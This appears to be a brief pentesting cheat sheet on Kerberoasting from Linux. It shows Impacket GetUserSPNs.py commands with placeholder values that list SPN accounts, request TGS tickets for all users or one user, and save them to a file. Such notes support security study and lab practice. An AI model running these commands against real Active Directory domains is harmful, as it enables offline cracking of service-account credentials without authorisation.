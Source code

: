 ```yaml
---
tags:
  - linux
  - kerberoasting
---
```

# Example Usage
## List SPN Accounts
```shell-session
$ GetUserSPNs.py -dc-ip <DC-IP> <DOMAIN>/<USER>
Password: ****
```
## Request TGS Tickets
`-request` will request all TGS tickets whereas `-request-user <USER>` will request for that specific user.
```shell-session
$ GetUserSPNs.py -dc-ip <DC-IP> <DOMAIN>/<USER> -request[-user <USER>]
```
## Useful Flags
- `-outputfile`: Save the TGS ticket to a file